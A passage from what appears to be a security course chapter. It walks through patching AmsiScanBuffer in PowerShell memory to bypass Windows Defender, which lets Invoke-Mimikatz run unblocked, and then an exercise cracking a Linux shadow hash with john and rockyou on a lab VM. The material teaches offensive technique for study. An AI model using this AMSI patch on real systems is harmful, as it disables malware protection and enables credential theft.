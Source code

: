 >```
>I set a variable to zero, which will be used in the next command to allow writing to the AmsiScanBuffer process.
>```powershell
>$p = 0
>```
>Next, I set the memory space of AmsiScanBuffer to be writable.  The command returns true indicating successful memory change.
>```powershell
>[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
>```
>In the next command, I set a variable to hold the patch in hexadecimal that will overwrite AmsiScanBuffer to return true negatives.
>```powershell
>$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
>```
>Finally, the last command will write the patch to the AmsiScanBuffer process.  All the preceding commands can be found in the following screenshot.
>```powershell
>[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
>```
>![[../images/05/win_activity_bypass_commands.png|Patching AmsiScanBuffer Process|600]]
>Amsi should now be unhooked and defanged within my PowerShell process.  To test its success, I rerun the echo command that was originally blocked.
>```powershell
>Invoke-Mimikatz
>```
>![[../images/05/win_activity_bypass_tested2.png|Testing Bypassed Defender|600]]
>Defender did not block the use of `Invoke-Mimikatz` this time!  It does error, but if you look closely, it only errors due to the command not being found (versus because antivirus blocks it).  This means anything else running within this PowerShell process will not be blocked by Defender.

## Exercises
>[!exercise] Exercise 5.1 - Shadow Cracking
>Crack Linux passwords using `john` in your Kali VM with Bridge Adapter network mode.  You will create a user and set their password.  Then you will prepare the hash file and use `john` to crack the hash with the `rockyou.txt` wordlist.
>#### Step 1 - Create User
>Create a user `tester` using the following command.
>```bash
>sudo useradd -m tester
>```
>Set the `tester` user password to `Password123` with the following command.
>```bash
>sudo passwd tester
>```
>#### Step 2 - Prepare Password List
>Unzip `rockyou.txt.gz` with the following command.
>```bash
>sudo gunzip /usr/share/wordlists/rockyou.txt.gz
>```
>#### Step 3 - Crack the Password
>With the `tester` user created and the `rockyou.txt` file unzipped, collect the `tester` user’s password into a hash file.
>```bash
>sudo unshadow /etc/passwd /etc/shadow | grep tester > /tmp/hash.txt
>```
>Crack the user password using `john` which could take up to 5 minutes depending on your VM resources.
>```bash
>john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hash.txt
>```


[^1]: VirusTotal - File; February 2024; https://www.virustotal.com/gui/file/31eb1de7e840a342fd468e558e5ab627bcb4c542a8fe01aec4d5ba01d539a0fc
[^2]: Amsi-Bypass-Powershell; GitHub S3cur3Th1sSh1t; February 2024; https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsi-amsiscanbuffer-by-rasta-mouse